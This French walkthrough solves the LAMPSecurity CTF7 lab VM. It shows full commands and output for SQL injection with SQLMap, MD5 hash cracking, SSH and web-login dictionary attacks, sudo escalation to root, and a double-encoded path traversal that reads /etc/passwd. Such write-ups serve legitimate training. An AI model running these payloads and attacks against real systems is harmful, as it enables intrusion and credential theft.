

# LAMPSecurity: CTF7

Lecture recommandée : [Walkthrough sur le challenge LAMPSecurity: CTF5](/CTF-VulnLabs/lampsecurity-CTF5)

[LAMPSecurity](https://sourceforge.net/projects/lampsecurity/) est un projet conçu par
[le chercheur en sécurité madirish2600](https://www.vulnhub.com/author/madirish2600,75/), qui nous gratifie d'un ensemble de machines virtuelles volontairement vulnérables. L'objectif est de trouver et d'exploiter des vulnérabilités sur chacune de ces VM, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Ce _walkthrough_ sera consacré à la résolution complète de la septième VM de la série, [LAMPSecurity CTF7](https://www.vulnhub.com/entry/lampsecurity-ctf7,86/). Vous voilà prévenus, attention aux spoilers !

## Recherche d'informations

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM CTF7 : il s'agit de 192.168.56.103. Néanmoins, il aura fallu ruser car la VM n'a pas obtenu d'adresse IP automatiquement, via DHCP : une connexion en tant que root (méga spoilers [dans le PDF fourni par madirish2600](files/lampsec_ctf7_v2.pdf) avec la machine virtuelle !) puis ```ifconfig eth1 up``` et ```dhclient eth1``` et voilà, le tour est joué.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.103  08:00:27:d0:b0:ae      1      60  PCS Systemtechnik GmbH
```

Toute phase d'attaque commence par une analyse du système cible.

Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.103

Nmap scan report for 192.168.56.103
Host is up (0.72s latency).
Not shown: 65526 filtered ports
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
MAC Address: 08:00:27:D0:B0:AE (Oracle VirtualBox virtual NIC)
```

Il est possible de [se connecter à distance avec SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) au serveur LAMPSecurity CTF7 (port 22), un serveur Web Apache 2.2.15 (ports 80 et 8080), un système de [partage de fichiers Samba](https://en.wikipedia.org/wiki/Samba_(software)) (ports 139 et 901) ainsi qu'un autre serveur Web exposé sur le port 10000 sont également installés sur la VM. Pour chacun de ces services, il est désormais temps de partir à la chasse aux vulnérabilités.

Le serveur Web semble a priori le plus alléchant pour commencer ; le site qu'il va falloir analyser de fond en comble est un site vitrine créé avec Bootstrap, qui fait la promotion de la _Mad Irish Hacking Academy_. Au menu : des formations en cybersécurité, une newsletter et une collection d'e-books gratuits ou payants à récupérer sur la plate-forme.



## Exploitation d'une injection SQL sur le paramètre id

Après s'être créé un compte sur la plate-forme, et après quelques tests, on s'aperçoit rapidement que l'URL ```http://192.168.56.103/profile&id=114``` renvoie un formulaire correspondant au profil créé ; tandis que ```http://192.168.56.103/profile&id=114s``` renvoie l'erreur SQL _Invalid query: Unknown column '114s' in 'where clause' Whole query: select * from users where user_id = 114s_ ou encore si ```id``` équivaut à ```114 OR '1'='1'#``` on obtient le profil d'un certain Brian Hershel. Tout cela signifie très probablement qu'il y a au moins une injection SQL d'exploitable sur la plate-forme.

Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.103/profile&id=114"
--snip--
[18:18:18] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[18:18:18] [INFO] heuristic (XSS) test shows that URI parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[19:19:19] [INFO] URI parameter '#1*' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --string="test@test.test")
--snip--
[20:20:20] [INFO] URI parameter '#1*' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
--snip--
[21:21:21] [INFO] target URL appears to have 7 columns in query
[21:21:21] [INFO] target URL appears to be UNION injectable with 7 columns
[21:21:21] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: http://192.168.56.103:80/profile&id=(SELECT (CASE WHEN (4117=4117) THEN 114 ELSE (SELECT 3378 UNION SELECT 4510) END))

--snip--
[22:22:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6.8
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL >= 5.0
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le paramètre testé ```id``` est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs```, et tant qu'à faire, autant récupérer tout le contenu de la base de données avec ```--dump-all```. Voici en bref les résultats remontés par l'outil.

```console
[*] information_schema
[*] mysql
[*] roundcube
[*] website

Database: website
[9 tables]
+-------------------+
| contact           |
| documents         |
| hits              |
| log               |
| newsletter        |
| payment           |
| trainings         |
| trainings_x_users |
| users             |
+-------------------+

Database: website
Table: log
[5 entries]
+----+------------------------------------------------------------------------------------+
| id | message                                                                            |
+----+------------------------------------------------------------------------------------+
| 1  | User test@nowhere.com registered with id 113 and password test                     |
| 2  | User ruby@localhost.localdomain reset their password to Shelly2012                 |
| 3  | User ruby@localhost.localdomain logged into the admin site.                        |
| 4  | User charles@localhost.localdomain used recovery.  Their password rest to changeme |
| 5  | User test@test.test registered with id 114 and password test                       |
+----+------------------------------------------------------------------------------------+

Database: website
Table: users
[13 entries]
+---------+-------------------------------+-----------------+-----------------------------------+
| user_id | username                      | realname        | password                          |
+---------+-------------------------------+-----------------+-----------------------------------+
| 3       | brian@localhost.localdomain   | Brian Hershel   | e22f07b17f98e0d9d364584ced0e3c18  |
| 4       | john@localhost.localdomain    | John Durham     | 0d9ff2a4396d6939f80ffe09b1280ee1  |
| 5       | alice@localhost.localdomain   | Alice Wonder    | 2146bf95e8929874fc63d54f50f1d2e3  |
| 6       | ruby@localhost.localdomain    | Ruby Spinster   | 9f80ec37f8313728ef3e2f218c79aa23  |
| 7       | leon@localhost.localdomain    | Leon Parnetta   | 5d93ceb70e2bf5daa84ec3d0cd2c731a  |
| 8       | julia@localhost.localdomain   | Julia Fields    | ed2539fe892d2c52c42a440354e8e3d5  |
| 9       | michael@localhost.localdomain | Michael Saint   | 9c42a1346e333a770904b2a2b37fa7d3  |
| 10      | bruce@localhost.localdomain   | Bruce Pottricks | 3a24d81c2b9d0d9aaf2f10c6c9757d4e  |
| 11      | neil@localhost.localdomain    | Neil Felstein   | 4773408d5358875b3764db552a29ca61  |
| 12      | charles@localhost.localdomain | Charles Adams   | b2a97bcecbd9336b98d59d9324dae5cf  |
| 36      | foo@bar.com                   | <blank>         | 4cb9c8a8048fd02294477fcb1a41191a  |
| 113     | test@nowhere.com              | <blank>         | 098f6bcd4621d373cade4e832627b4f6  |
| 114     | test@test.test                | <blank>         | 098f6bcd4621d373cade4e832627b4f6  |
+---------+-------------------------------+-----------------+-----------------------------------+
```

En tout, plus d'une vingtaine de points d'injection ont été recensés, la liste se veut exhaustive mais une page ou un paramètre m'aura peut-être échappé. Mais comment se fait-il que les pages de l'autre site (celui accessible sur le port 8080) soient listées ici ? Grâce aux hashs de mots de passe stockés dans la table ```users``` bien entendu !

```console
Injections SQL
+-----------------------------------------------+-------------------+-------------------+
| URL                                           | champ vulnérable  | méthode           |
+-----------------------------------------------+-------------------+-------------------+
| http://192.168.56.103/newsletter              | id                | GET               |
| http://192.168.56.103/profile                 | id                | GET               |
| http://192.168.56.103/recovery                | email             | POST              |
| http://192.168.56.103/register_scr            | fname             | POST              |
| http://192.168.56.103/register_scr            | lname             | POST              |
| http://192.168.56.103/register_scr            | email             | POST              |
| http://192.168.56.103/register_scr            | street            | POST              |
| http://192.168.56.103/register_scr            | city              | POST              |
| http://192.168.56.103/register_scr            | state             | POST              |
| http://192.168.56.103/register_scr            | zip               | POST              |
| http://192.168.56.103/register_scr            | phone             | POST              |
| http://192.168.56.103/register_scr            | ccn               | POST              |
| http://192.168.56.103/register_scr            | seccode           | POST              |
| http://192.168.56.103/signup_scr              | email             | POST              |
| http://192.168.56.103:8080/feedback.php       | id                | GET (op=delete)   |
| http://192.168.56.103:8080/index.php          | username          | POST              |
| http://192.168.56.103:8080/index.php          | password          | POST              |
| http://192.168.56.103:8080/newsletters.php    | id                | GET (op=edit)     |
| http://192.168.56.103:8080/newsletters.php    | id                | GET (op=delete)   |
| http://192.168.56.103:8080/readings.php       | id                | GET (op=edit)     |
| http://192.168.56.103:8080/readings.php       | id                | GET (op=delete)   |
| http://192.168.56.103:8080/reservations.php   | id                | GET (op=delete)   |
| http://192.168.56.103:8080/trainings.php      | id                | GET (op=edit)     |
| http://192.168.56.103:8080/trainings.php      | id                | GET (op=delete)   |
| http://192.168.56.103:8080/users.php          | user_id           | GET (op=edit)     |
| http://192.168.56.103:8080/users.php          | user_id           | GET (op=delete)   |
| http://192.168.56.103:8080/users.php          | username          | GET (op=new_scr)  |
| http://192.168.56.103:8080/users.php          | password          | GET (op=new_scr)  |
+-----------------------------------------------+-------------------+-------------------+
```

## Cassage des mots de passe MD5 présents en base de données

En effet, __SQLMap__ a même eu la gentillesse de demander si les hashs de mots de passe trouvés dans la base de données devaient être crackés ou non (bien sûr que oui !). Ainsi, [l'attaque par dictionnaire sur les hashs de mot de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) a porté ses fruits : dans la table ```users```, neuf mots de passe dont huit distincts ont été trouvés. Celui de Ruby Spinster n'a pas été trouvé dans le lot, mais il apparaît dans la table ```log``` et une brève vérification du hash MD5 de la chaîne de caractères ```Shelly2012``` permet de le confirmer.

```console
root@blinils:~# cat CTF7-passusers.txt
brian@localhost.localdomain:e22f07b17f98e0d9d364584ced0e3c18
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomain:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomain:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomain:b2a97bcecbd9336b98d59d9324dae5cf
foo@bar.com:4cb9c8a8048fd02294477fcb1a41191a
test@nowhere.com:098f6bcd4621d373cade4e832627b4f6
test@test.test:098f6bcd4621d373cade4e832627b4f6

root@blinils:~# john CTF7-passusers.txt --format=Raw-MD5 --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 12 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
madrid           (julia@localhost.localdomain)
changeme         (foo@bar.com)
qwer1234         (leon@localhost.localdomain)
test             (test@nowhere.com)
chuck33          (charles@localhost.localdomain)
turtles77        (alice@localhost.localdomain)
somepassword     (michael@localhost.localdomain)
my2cents         (brian@localhost.localdomain)
--snip--
Session completed
```

Une recherche sur [CrackStation](https://crackstation.net/) puis sur [HashKiller](https://hashes.com/en/decrypt/hash) permet d'obtenir les mots de passe manquants.


Nous sommes donc en mesure de nous constituer deux dictionnaires, l'un contenant des noms d'utilisateurs et l'autre des mots de passe. L'objectif est de déterminer si les utilisateurs sont précautionneux en matière de sécurité, ou s'ils réutilisent le même mot de passe un peu partout...

```console
root@blinils:~# echo -n "Shelly2012" | md5sum
9f80ec37f8313728ef3e2f218c79aa23  -

root@blinils:~# cat CTF7-users
brian
john
alice
ruby
leon
julia
michael
bruce
neil
charles
foo
test

root@blinils:~# cat CTF7-passwords
my2cents
transformersrule
turtles77
Shelly2012
qwer1234
madrid
somepassword
LosAngelesLakers
Jets4Ever
chuck33
changeme
test
```

## Attaques par dictionnaire sur les services de la VM CTF7

Pour trouver les mots de passe de Brian, d'Alice, de Ruby, de Charles ou encore de Michael, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.

L'outil-couteau-suisse [__Hydra__](https://sectools.org/tool/hydra/) est de sortie pour une attaque par dictionnaire, avec les _credentials_ trouvés précédemment !

```console
root@blinils:~# hydra -L CTF7-users -P CTF7-passwords 192.168.56.103 \
-t 4 -s 8080 http-form-post "/index.php:username=^USER^&password=^PASS^:Invalid"

--snip--
[DATA] attacking http-post-form://192.168.56.103:8080//index.php:username=^USER^&password=^PASS^:Invalid
[8080][http-post-form] host: 192.168.56.103   login: test   password: test
1 of 1 target successfully completed, 1 valid password found
--snip--
```

Et hop, le couple ```test:test``` fonctionne sur l'interface d'administration du site, accessible sur le port 8080. Et pour SSH ?

```console
root@blinils:~# hydra -L CTF7-users -P CTF7-passwords -t 4 ssh://192.168.56.103

--snip--
[DATA] max 4 tasks per 1 server, overall 4 tasks, 144 login tries (l:12/p:12), ~36 tries per task
[DATA] attacking ssh://192.168.56.103:22/
1 of 1 target completed, 0 valid passwords found
--snip--
```

Bizarre... je ne sais pour quelle raison Hydra fait chou blanc, alors que d'autres outils comme [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) ou [__Patator__](https://github.com/lanjelot/patator) trouvent des mots de passe valides.

```console
root@blinils:~# medusa -h 192.168.56.103 -U CTF7-users -P CTF7-passwords -M ssh -v 4
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: brian Password: my2cents [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: john Password: transformersrule [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: alice Password: turtles77 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: ruby Password: Shelly2012 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: leon Password: qwer1234 [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: julia Password: madrid [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: michael Password: somepassword [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: bruce Password: LosAngelesLakers [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: neil Password: Jets4Ever [SUCCESS]
ACCOUNT FOUND: [ssh] Host: 192.168.56.103 User: charles Password: chuck33 [SUCCESS]
```

```console
root@blinils:~# patator ssh_login host=192.168.56.103 user=FILE0 \
password=FILE1 0=CTF7-users 1=CTF7-passwords -x ignore:mesg='Authentication failed.'

20:18:31 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/)
20:18:31 patator    INFO -                                                                            
20:18:31 patator    INFO - code  size   time | candidate                 |   num | mesg
20:18:31 patator    INFO - --------------------------------------------------------------------
20:18:32 patator    INFO - 0     19    0.320 | brian:my2cents            |     1 | SSH-2.0-OpenSSH_5.3
20:18:35 patator    INFO - 0     19    0.142 | john:transformersrule     |    14 | SSH-2.0-OpenSSH_5.3
20:18:37 patator    INFO - 0     19    0.105 | alice:turtles77           |    27 | SSH-2.0-OpenSSH_5.3
20:18:39 patator    INFO - 0     19    0.126 | ruby:Shelly2012           |    40 | SSH-2.0-OpenSSH_5.3
20:18:43 patator    INFO - 0     19    0.066 | leon:qwer1234             |    53 | SSH-2.0-OpenSSH_5.3
20:18:46 patator    INFO - 0     19    0.100 | julia:madrid              |    66 | SSH-2.0-OpenSSH_5.3
20:18:49 patator    INFO - 0     19    0.100 | michael:somepassword      |    79 | SSH-2.0-OpenSSH_5.3
20:18:52 patator    INFO - 0     19    0.085 | bruce:LosAngelesLakers    |    92 | SSH-2.0-OpenSSH_5.3
20:18:54 patator    INFO - 0     19    0.034 | neil:Jets4Ever            |   105 | SSH-2.0-OpenSSH_5.3
20:18:56 patator    INFO - 0     19    0.073 | charles:chuck33           |   118 | SSH-2.0-OpenSSH_5.3
20:19:03 patator    INFO - Hits/Done/Skip/Fail/Size: 10/144/0/0/144, Avg: 4 r/s, Time: 0h 0m 31s
```

## Mauvaise gestion des privilèges d'administration via le fichier /etc/sudoers

L'élévation de privilèges est un jeu d'enfant ; en effet, la plupart des comptes [disposent de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs et sont autorisés à exécuter toutes les commandes via sudo. Il est alors possible de passer root avec la commande ```sudo su``` et le tour est joué. Seuls les comptes de Brian, John, Alice et de Julia sont concernés ; ils appartiennent effectivement au groupe ```wheel```.

```console
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
	
[brian@localhost ~]$ id
uid=501(brian) gid=501(brian) groups=501(brian),10(wheel),500(webdev),512(admin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[brian@localhost ~]$ sudo /bin/bash

[root@localhost brian]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[root@localhost brian]# cat /etc/group | grep wheel
wheel:x:10:brian,john,alice,julia
```

## Analyse de code : exploitation des injections SQL

Parmi les fichiers vulnérables aux injections SQL, on trouve dans ```/inc``` le fichier ```profile.php```, dont voici un extrait. 

```console
[julia@localhost inc]$ pwd
/var/www/html/inc

[julia@localhost inc]$ sed -n -e 8,12p profile.php
if (isset($_GET['id'])) {
	$sql = 'select * from users where user_id = ' . $_GET['id'];
	$result = $db->query($sql);
	$username = $result[0]['username'];
}
```

Les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. L'injection SQL trouvée sur le site s'explique : le paramètre ```id``` fourni par l'utilisateur dans l'URL (via la méthode GET) est utilisé tel quel, concaténé à la requête SQL sans aucune vérification, alors qu'il doit obligatoirement s'agir d'une valeur numérique supérieure ou égale à zéro.

## Analyse de code : Local File Inclusion (LFI) sur la page index.php

Décidément, ces fichiers PHP nous réservent de bonne surprises !

```console
[charles@localhost html]$ pwd
/var/www/html

[charles@localhost html]$ sed -n -e 11p -e 17,19p index.php
$action = 'inc/' . $_GET['action'] . '.php';
if ($_GET['action'] != 'read') include_once('inc/header.php');
include_once($action);
if ($_GET['action'] != 'read') include_once('inc/footer.php');

[charles@localhost inc]$ pwd
/var/www/html/inc

[charles@localhost inc]$ sed -n -e 12,13p read.php
	$path = "/var/www/html/assets/" . $_GET['file'];
	if (! is_file($path)) die("Could not find " . $_GET['file']);
```

Une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) semble possible via ce fichier PHP et son paramètre ```action```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```.

Exemple avec le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. Il faut ruser et utiliser un [double encodage](https://www.owasp.org/index.php/Double_Encoding) pour y arriver !

```console
root@blinils:~# curl --cookie "PHPSESSID=knk91bfkgkv5q51gt203kn6fe6; user=test" \
"http://192.168.56.103/read&file=../../../../../../../etc/passwd"
Can't find requested include: inc/etc/passwd.php

root@blinils:~# curl --cookie "PHPSESSID=knk91bfkgkv5q51gt203kn6fe6; user=test" \
"http://192.168.56.103/read&file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
--snip--
brian:x:501:501::/home/brian:/bin/bash
john:x:502:502::/home/john:/bin/bash
alice:x:503:503::/home/alice:/bin/bash
ruby:x:504:504::/home/ruby:/bin/bash
leon:x:505:505::/home/leon:/bin/bash
julia:x:506:506::/home/julia:/bin/bash
michael:x:507:507::/home/michael:/bin/bash
bruce:x:508:508::/home/bruce:/bin/bash
neil:x:509:509::/home/neil:/bin/bash
charles:x:510:510::/home/charles:/bin/bash
dovecot:x:97:97:Dovecot IMAP server:/usr/libexec/dovecot:/sbin/nologin
dovenull:x:498:499:Dovecot's unauthorized user:/usr/libexec/dovecot:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
```

Et voilà qui conclut ce _walkthrough_, merci à [madirish2600](https://www.vulnhub.com/author/madirish2600,75/) pour avoir créé ces VM LAMPSecurity vulnérables !
